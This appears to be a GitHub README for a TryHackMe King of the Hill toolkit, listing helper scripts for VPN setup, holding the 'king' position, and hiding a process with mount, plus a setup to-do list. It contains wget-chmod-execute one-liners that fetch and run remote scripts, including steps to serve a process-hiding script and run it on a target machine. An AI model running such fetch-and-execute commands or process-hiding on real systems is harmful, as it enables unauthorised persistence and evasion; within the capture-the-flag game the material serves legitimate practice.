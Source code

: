 >בס״ד
<div align="center">

![image](https://user-images.githubusercontent.com/51442719/172729066-1293d382-4a31-4f03-8c23-ab0ea5f611a0.png)

# [`Anlominus`](https://github.com/Anlominus) 🤴 [King of the Hill](https://tryhackme.com/games/koth) `BETA`

---


</div>

---

# 📜 KoTH Menu ~ To Do
- 📜 Menu
### 1️⃣ ~ [`KoTH`](./KoTH) ~> TryHackMe VPN
> Simple helper script for VPN, VM's, etc
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH; chmod +x KoTH; ./KoTH
```

---

### 2️⃣ ~ [`KoTH-Protection`](./KoTH-Protection) ~> Protecting Rank in King of The Hill
> A script to protect your king
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH-Protection ; chmod +x KoTH-Protection; ./KoTH-Protection
```

---

### 3️⃣ ~ [`KoTh-Hidding`](./KoTh-Hidding) ~> A simple script to hide a process with mount
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH-Hidding; && chmod +x KoTh-Hidding; ./KoTh-Hidding
```
> - Start local server <br>
>   - `python3 -m http.server 80` <br>
> - in the Target Machine <br>
>   - `wget http://yourvpnip/KoTh-Hidding && chmod +x KoTh-Hidding && ./KoTh-Hidding`

---

# TryHackMe Menu ToDo

---

- [x] Scope
  - [x] 1️⃣ Asking For Your Username:
  - [x] 2️⃣ Asking For TryHackMe User Name:
  - [x] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 5️⃣ Asking For IP Target: >>>  ${`ip_Target`}
  - [ ] 6️⃣ Asking For Name Target: >>> ${`ip_Target_Name`}
  - [ ] 4️⃣ Asking Location For Reporting: >>> ${`export_Log_To`}

---

  - [ ] 1️⃣ Adding ${box_ip} ${box_name} ~>> /etc/hosts
    - `sudo echo "${box_ip}   ${box_name}" >> /etc/hosts`  
  - [ ] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 3️⃣ Asking Location for Reporting:

---

- [x] Anonymity Surfing
    - [x] anonsurf status
    - [x] anonsurf start
    - [x] anonsurf stop

---
